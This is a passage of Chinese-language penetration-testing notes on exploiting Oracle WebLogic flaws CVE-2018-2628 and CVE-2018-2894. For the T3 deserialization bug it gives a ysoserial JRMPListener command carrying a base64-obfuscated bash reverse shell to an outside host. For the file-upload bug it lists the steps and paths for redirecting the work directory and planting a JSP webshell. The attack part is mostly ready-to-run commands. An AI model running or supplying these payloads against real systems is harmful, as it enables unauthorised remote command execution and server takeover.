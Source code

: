 Oracle 2018年4月补丁中，修复了Weblogic Server WLS Core Components中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过t3协议触发，可导致未授权的用户在远程服务器执行任意命令。

检测方式，该漏洞无回显，无法直接梭哈：

![](/zj_img/WEBRESOURCEe4b597f35bb358c84885c54e828ee9c3截图.png)

利用方式：

开启恶意

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```

![](/zj_img/WEBRESOURCE8975c6b6dd4d44d0886f32787cd710c2截图.png)

![](/zj_img/WEBRESOURCE899f19d0d38bb6bfb5e8846204c1caf9截图.png)

## 3、Weblogic 任意文件上传漏洞（CVE-2018-2894）

Oracle 7月更新中，修复了Weblogic Web Service Test Page中一处任意文件上传漏洞，Web Service Test Page 在“生产模式”下默认不开启，所以该漏洞有一定限制。





利用该漏洞，可以上传任意jsp文件，进而获取服务器权限。

**注意：该漏洞工具可做检测，但需要手动上传webshell**

修改工作目录：

```
/ws_utc/config.do
/ws_utc/begin.do  利用方法类似，直接上传即可
```

```
/u01/oracle/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/com.oracle.webservices.wls.ws-testclient-app-wls/4mcj4y/war/css。我将目录设置为ws_utc应用的静态文件css目录，访问这个目录是无需权限的，这一点很重要。
```

![](/zj_img/WEBRESOURCEae428a3f2e927c9c58f2448ebad10dd6截图.png)

上传webshell即可：

![](/zj_img/WEBRESOURCEe6c667d82d132f0a154e59843a13621d截图.png)

路径为：/ws_utc/css/config/keystore/[时间戳]_[文件名]

![](/zj_img/WEBRESOURCE22e9bcd60200def6281ac624f83f3d7f截图.png)
